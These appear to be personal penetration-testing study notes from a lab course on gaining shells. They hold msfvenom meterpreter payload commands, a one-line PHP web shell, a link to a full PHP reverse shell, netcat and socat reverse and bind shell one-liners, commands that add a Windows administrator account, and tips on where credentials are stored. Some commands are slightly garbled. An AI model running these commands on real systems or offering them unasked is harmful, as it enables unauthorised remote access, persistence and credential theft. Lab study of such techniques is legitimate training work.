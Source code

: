 staged meterpreter reverse shell for a 64bit Linux target
- ``` msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443 ```

Payload Naming Conventions
- OS/arch/payload
- eg. linux/x86/shell_reverse_tcp
- eg. ``` windows/x64/meterpreter/reverse_tcp ``` staged payload
- eg. ``` linux/x86/meterpreter_reverse_tcp ``` stageless payload

list payloads:
- ``` msfvenom --list payloads | grep "linux/x86/meterpreter" ```

**Metasploit multi/handler**
- 3 options:  payload, LHOST and LPORT.
- ``` exploit -j ``` run in background.

**WebShells**
php
- ``` <?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?> ```
- usage. input in URL "10.10.84.199/uploads/shell.php?cmd=ifconfig"
- run ``` ifconfig ``` on server.

pentestmonkey reverse shell
- https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
- a full reverse shell written in PHP

**Next**
Try to get access to user account
- SSH keys stored at ``` /home/<user>/.ssh ```
- Windows eg, VNC servers frequently leave passwords in the registry stored in plaintext.
- FileZilla FTP server also leave credentials in an XML file

windos add user:
- ``` net user <username> <password> /add ```
- ``` net localgroup administrators <username> /add ```

**practice**
p1
- ``` nc -lnvp 4444 ``` on attacker.
- ``` NC <yourmachineip> -e /bin.bash ``` on target.
- ``` python3 -c 'import pty;pty.spawn("/bin/bash")' ``` on attacker, stabilize 

p2
- ``` /usr/share/webshells/php/php-reverse-shell.php ``` change the IP to attacker`s.
- ``` nc -lnvp 1234 ``` on attacker.
- upload ``` php-reverse-shell.php ``` to server and run it.

p3(nc REVERSE SHELL)
- ``` nc -lvnp 4444 ``` attacker’s 
- ``` nc <tun0-ip> 4444-e /bin/bash ``` target’s 

p3(nc BIND SHELL)
- ``` nc  -lvnp 4444-e /bin/bash ``` target’s terminal
- ``` nc <target-ip> 4444 ``` attacker’s terminal

p4(socat reverse shell linux)
- ``` socat TCP-L:4444 - ``` attacker`s
- ``` socat TCP:<tun0-ip>:4444 EXEC:"bash -li" ``` target`s
